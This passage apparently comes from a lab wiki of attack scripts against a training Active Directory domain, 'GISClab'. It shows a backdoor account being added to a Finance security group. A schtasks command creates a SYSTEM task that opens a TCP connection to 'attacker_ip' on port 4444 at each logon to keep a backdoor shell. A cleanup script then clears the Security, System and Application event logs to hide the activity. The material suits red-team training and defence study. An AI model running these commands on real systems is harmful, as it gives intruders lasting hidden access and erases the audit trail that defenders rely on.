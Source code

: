 This adds user `backdooradmin` to `Finance` global security group in domain `GISClab`.

![add to finance](https://github.com/LunaLynx12/GISC/blob/main/wiki/Attack%20Scripts/Andrei%20Chiper/images/img17.jpeg?raw=true)

#### Scheduled task for persistence

A method for persistence is creating a scheduled task that will open the backdoor shell each time the system reboots:

```powershell
schtasks /create /tn "PersistenceTask" /tr "powershell.exe -Command (New-Object Net.Sockets.TCPClient('attacker_ip', 4444)).GetStream()" /sc onlogon /ru SYSTEM
```

### Cleanup

The following script will clear all the events since the beginning. 

```powershell
Clear-EventLog -LogName Security
Clear-EventLog -LogName System
Clear-EventLog -LogName Application
```

Note: If there in the topology of the network a pfsense is attached that specific system will raise an alarm of this incident. The system will also announce about any scheduled tasks for persistence that take place.

